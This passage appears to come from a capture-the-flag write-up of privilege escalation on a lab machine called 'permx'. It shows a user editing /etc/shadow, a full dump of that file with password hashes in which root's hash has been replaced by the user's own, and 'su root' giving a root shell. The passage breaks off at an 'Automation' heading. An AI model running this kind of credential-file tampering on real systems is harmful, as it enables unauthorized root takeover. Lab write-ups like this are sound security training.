 ```c
mtz@permx:~$ vi /etc/shadow
```

```c
mtz@permx:~$ cat /etc/shadow
root:$y$j9T$RUjBgvOODKC9hyu5u7zCt0$Vf7nqZ4umh3s1N69EeoQ4N5zoid6c2SlGb1LvBFRxSB:19742:0:99999:7:::
daemon:*:19579:0:99999:7:::
bin:*:19579:0:99999:7:::
sys:*:19579:0:99999:7:::
sync:*:19579:0:99999:7:::
games:*:19579:0:99999:7:::
man:*:19579:0:99999:7:::
lp:*:19579:0:99999:7:::
mail:*:19579:0:99999:7:::
news:*:19579:0:99999:7:::
uucp:*:19579:0:99999:7:::
proxy:*:19579:0:99999:7:::
www-data:*:19579:0:99999:7:::
backup:*:19579:0:99999:7:::
list:*:19579:0:99999:7:::
irc:*:19579:0:99999:7:::
gnats:*:19579:0:99999:7:::
nobody:*:19579:0:99999:7:::
_apt:*:19579:0:99999:7:::
systemd-network:*:19579:0:99999:7:::
systemd-resolve:*:19579:0:99999:7:::
messagebus:*:19579:0:99999:7:::
systemd-timesync:*:19579:0:99999:7:::
pollinate:*:19579:0:99999:7:::
sshd:*:19579:0:99999:7:::
syslog:*:19579:0:99999:7:::
uuidd:*:19579:0:99999:7:::
tcpdump:*:19579:0:99999:7:::
tss:*:19579:0:99999:7:::
landscape:*:19579:0:99999:7:::
fwupd-refresh:*:19579:0:99999:7:::
usbmux:*:19742:0:99999:7:::
mtz:$y$j9T$RUjBgvOODKC9hyu5u7zCt0$Vf7nqZ4umh3s1N69EeoQ4N5zoid6c2SlGb1LvBFRxSB:19742:0:99999:7:::
lxd:!:19742::::::
mysql:!:19742:0:99999:7:::
```

All we then had to do was to switch the user session to root.

```c
mtz@permx:~$ su root
Password: 
root@permx:/home/mtz#
```

### Automation

Since there was a pretty aggressive cleanup job running, `xvt` and `Yeeb` came up with two automated solutions to make it easier to exploit.

